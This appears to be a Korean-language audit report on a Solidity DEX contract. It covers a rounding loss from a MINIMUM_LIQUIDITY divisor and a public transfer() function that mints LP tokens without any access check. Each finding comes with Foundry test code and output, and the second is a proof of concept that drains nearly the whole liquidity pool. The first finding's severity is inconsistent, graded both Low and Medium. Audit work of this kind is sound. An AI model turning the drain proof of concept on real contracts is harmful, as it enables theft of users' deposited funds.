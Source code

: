 ## 구민재

## 1. Initial liquidity under 1000 wei gets rounded

### 설명

문제 코드: Dex.sol line8, 31

```jsx
uint public constant MINIMUM_LIQUIDITY = 10**3;
...
function addLiquidity ... {
	...
  if (_totalSupply == 0) {
    LPTokenAmount = _sqrt((tokenXAmount + reserveX) * (tokenYAmount + reserveY) / MINIMUM_LIQUIDITY);
	...
        }
```

MINIMUM_LIQUIDITY라는 고정값 변수를 사용해 초기 LP토큰 발행량을 결정했다.

첫 LP토큰 발행시 1000 미만의 값은 버려지게 된다.

### 파급력

Low

-   산정 이유
    -   DEX 서비스 자체의 효용성이 떨어지는 버그이기 때문에 Low를 부여했다.
-   공격 시나리오

    -   첫 유동성 공급자가 공급한 두 토큰의 곱이 1000000으로 나누어떨어지지 않는 경우 무조건 문제가 발생한다. 이 경우 LP토큰 발행량의 1000 wei 아래의 값은 모두 버려진다.
    -   다만 이러한 문제가 발생했을 경우 DEX 유동성 공급자들이 유동성을 회수할 때 공급한 양보다 약간 더 적은 양을 받게 된다.
    -   DEX 서비스 자체에 문제가 생기기 때문에 Medium를 부여했다.

        ```jsx
        function testAddLiquidity1() external {
          uint firstLPReturn = dex.addLiquidity(500 ether, 1 ether, 0);
          emit log_named_uint("firstLPReturn", firstLPReturn);

          uint secondLPReturn = dex.addLiquidity(1 ether, 0.002 ether, 0);
          emit log_named_uint("secondLPReturn", secondLPReturn);

          (uint tx, uint ty) = dex.removeLiquidity(secondLPReturn, 0, 0);
          emit log_named_uint("second LP remove", tx);
          emit log_named_uint("second LP remove", ty);

          assertEq(tx, 1 ether);
          assertEq(ty, 0.002 ether);
        }

        ```

        ```jsx
        [FAIL. Reason: Assertion failed.] testAddLiquidity1() (gas: 258781)
        Logs:
          firstLPReturn: 707106781186547524
          secondLPReturn: 1414213562373095
          second LP remove: 999999999999999966
          second LP remove: 1999999999999999
          Error: a == b not satisfied [uint]
                Left: 999999999999999966
               Right: 1000000000000000000
          Error: a == b not satisfied [uint]
                Left: 1999999999999999
               Right: 2000000000000000
        ```

-   난이도

    -   외부 공격자보다는 첫 유동성을 공급하는 DEX service provider로 인해 발생할 가능성이 높다.

-   발생할 수 있는 피해
    -   유동성 공급자들이 제 공급량을 찾아가지 못하므로 DEX의 사용성이 매우 떨어진다.

### 해결 방안

-   문제가 되는 코드에서 MINIMUM_LIQUIDITY 변수를 삭제하면 해결 가능하다.

## 2. No authority check for LP mint

### 설명

문제 코드: Dex.sol line106

transfer() 함수가 LP토큰을 mint해주는 중요한 역할을 하는 함수임에도 불구하고 권한 체크를 해주지 않았다. 따라서 누구나 접근 가능하며, 원하는 만큼의 LP토큰을 발행하고 그만큼 유동성 풀에 공급된 토큰을 탈취할 수 있다.

### 파급력

Critical

-   산정 이유
    -   누구든 접근할 수 있으며, 피해 규모 또한 크기 때문에 Critical을 부여했다.
-   공격 시나리오

    -   tester1이 유동성 공급을 전혀 하지 않은 상태에서 transfer() 함수를 통해 LP토큰을 자신에게 민팅하였고, 그 토큰을 이용해 유동성 풀에 공급된 전체 토큰을 탈취하였다.

    ```jsx
    function testTransfer() external {
      uint firstLPReturn = dex.addLiquidity(10000 ether, 10000 ether, 0);
      emit log_named_uint("firstLPReturn", firstLPReturn);

      address tester1 = vm.addr(1);
      uint tester1_balanceX_before = tokenX.balanceOf(tester1);
      uint tester1_balanceY_before = tokenY.balanceOf(tester1);
      emit log_named_uint("tester1's token X balance", tester1_balanceX_before);
      emit log_named_uint("tester1's token Y balance", tester1_balanceY_before);
      vm.startPrank(tester1);
          // vm.expectRevert("you are not authorized for LP mint.");
          dex.transfer(tester1, 10000 ether);
          dex.removeLiquidity(10000 ether, 1 ether, 1 ether);
          uint tester1_balanceX = tokenX.balanceOf(tester1);
          uint tester1_balanceY = tokenY.balanceOf(tester1);
          emit log_named_uint("tester1's token X balance", tester1_balanceX);
          emit log_named_uint("tester1's token Y balance", tester1_balanceY);
      vm.stopPrank();
    }
    ```

    ```jsx
    [PASS] testTransfer() (gas: 285355)
    Logs:
      firstLPReturn: 10000000000000000000
      tester1's token X balance: 0
      tester1's token Y balance: 0
      tester1's token X balance: 9990009990009990009990
      tester1's token Y balance: 9990009990009990009990
    ```

-   공격 난이도
    -   누구나 접근 가능하므로, 매우 쉽다.
-   발생할 수 있는 피해
    -   유동성 공급 여부와 상관없이 누구나 유동성 토큰을 발행할 수 있으며, 발행한 토큰의 양만큼 회수가 가능하다. 따라서 DEX에 공급된 자산 전부를 탈취할 수 있다.

### 해결 방안

-   transfer 함수의 접근 권한을 address(this)로 제한하면 해결된다.
    ```jsx
    function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) {
      require(msg.sender == address(this), "you are not authorized");
      _mint(to, lpAmount);
      return true;
    }
    ```
